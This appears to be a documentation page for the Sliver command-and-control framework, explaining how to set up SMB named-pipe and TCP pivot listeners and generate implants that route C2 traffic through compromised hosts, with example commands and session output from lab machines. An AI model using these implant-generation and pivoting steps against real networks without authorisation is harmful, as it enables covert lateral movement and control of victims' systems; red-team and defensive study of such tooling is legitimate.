 
⚠️ Pivots in Sliver are used for specifically pivoting C2 traffic, not to be confused with port forwarding i.e. `portfwd` for tunneling generic TCP connections in/out of a target env. Sliver supports two types of pivot listeners: SMB and TCP pivots.

# SMB named pipe pivot

To start a SMB pivot listener, use the `named-pipe` command from a sliver session:

```
sliver (DELIGHTFUL_TELLER) > named-pipe -h

Start a named pipe pivot listener

Flags:
======
  -h, --help              display help
  -n, --name    string    name of the named pipe
  -t, --timeout int       command timeout in seconds (default: 60)

sliver (DELIGHTFUL_TELLER) > named-pipe --name lol

[*] Listening on \\.\pipe\lol
```

Then, generate a new sliver using the `named-pipe` transport:

```
sliver > generate --named-pipe desk01//./pipe/lol --skip-symbols --save /tmp
```

The format for the `--named-pipe` parameter is `HOSTNAME//./pipe/PIPE_NAME` where:

- `HOSTNAME` is either the IP address, the machine name or the Fully Qualified Domain Name (FQDN) of the host
- `PIPE_NAME` is the same name as the one used in the `named-pipe` command

Once the new sliver runs, you should see something similar to this output:

```
[*] Session #5 YUMMY_C-CLAMP - \\DESK01\pipe\lol (APPSRV01) - windows/amd64 - Thu, 09 Jul 2020 10:54:16 CEST
sliver (FLAT_HUT) > sessions

ID  Name           Transport           Remote Address      Hostname  Username              Operating System  Last Check-in
==  ====           =========           ==============      ========  ========              ================  =============
4   FLAT_HUT       mtls                172.16.20.13:23424  DESK01    CENTRALLAB\adminjdoe  windows/amd64     Thu, 09 Jul 2020 10:54:44 CEST
5   YUMMY_C-CLAMP  named-pipe (PIVOT)  \\DESK01\pipe\lol   APPSRV01  CENTRALLAB\adminjdoe  windows/amd64     Thu, 09 Jul 2020 10:54:44 CEST
```

# TCP Pivot

To start a TCP pivot, use the `tcp-pivot` command from a sliver session:

```
sliver (CHUBBY_PAVILION) > tcp-pivot -h

Start a TCP pivot listener

Flags:
======
  -h, --help              display help
  -l, --lport   int       tcp listen port (default: 9898)
  -s, --server  string    interface to bind server to (default: 0.0.0.0)
  -t, --timeout int       command timeout in seconds (default: 60)

sliver (CHUBBY_PAVILION) > tcp-pivot -l 8000 -s 172.16.241.1

[*] Listening on tcp://172.16.241.1:8000
```

Then, use `generate` to create a new sliver that will connect through the pivot:

```
sliver > generate --skip-symbols --tcp-pivot 172.16.241.1:8000

```

Once this new sliver executes, you should see something like this:

```
[*] Session #3 DELIGHTFUL_TELLER - 172.16.241.1:8000 (DESKTOP-0QQJ4JL) - windows/amd64 - Thu, 09 Jul 2020 10:24:05 CEST

sliver > sessions

ID  Name               Transport    Remote Address      Hostname         Username             Operating System  Last Check-in
==  ====               =========    ==============      ========         ========             ================  =============
...
3   DELIGHTFUL_TELLER  tcp (PIVOT)  172.16.241.1:8000   DESKTOP-0QQJ4JL  DESKTOP-0QQJ4JL\lab  windows/amd64     Thu, 09 Jul 2020 10:24:08 CEST
```

